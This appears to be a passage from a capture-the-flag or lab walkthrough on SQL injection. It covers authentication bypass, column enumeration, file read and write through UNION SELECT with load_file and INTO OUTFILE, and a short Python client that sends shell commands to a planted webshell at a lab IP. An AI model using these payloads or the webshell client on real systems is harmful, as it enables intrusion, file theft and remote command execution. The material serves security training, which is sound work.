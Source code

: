 Execute the Python file like this `python3 script.py ls -la`

```python
import requests,sys;

command = " ".join(sys.argv[1:])
request = requests.Session()
response = request.get("http://46.101.94.35:31086/webshell.php?0=" + command)
print(response.text, end="")
```

Once you find the file, copy it into the web directory.

```sql
cn' union select "",load_file("/var/www/flag.txt"),"","" into outfile "/var/www/html/flagcopy.txt"-- -
```

And go to [http://46.101.94.35:31086/flagcopy.txt](http://46.101.94.35:31086/flagcopy.txt).

<figure><img src="../../../../.gitbook/assets/flagcopy.png" alt=""><figcaption></figcaption></figure>

12. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

***

1. Bypass authentication

```sql
' or '1'='1'-- -
```

2. Check the number of columns queried

```sql
' order by 5-- -
```

3. Find the columns displayed on the web page

```sql
' union select 1,2,3,4,5-- -
```

4. Show the database version
